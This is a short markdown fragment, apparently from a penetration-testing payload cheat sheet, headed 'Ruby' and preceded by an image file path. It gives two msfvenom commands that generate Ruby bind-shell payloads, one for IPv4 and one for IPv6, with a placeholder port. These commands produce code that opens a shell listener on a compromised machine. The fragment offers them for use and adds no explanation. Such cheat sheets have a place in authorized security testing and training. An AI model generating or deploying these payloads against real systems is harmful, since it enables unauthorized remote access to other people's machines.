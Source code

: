 # Ruby

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_ruby lport=<PORT>

$ msfvenom -p cmd/unix/bind_ruby_ipv6 lport=<PORT>
```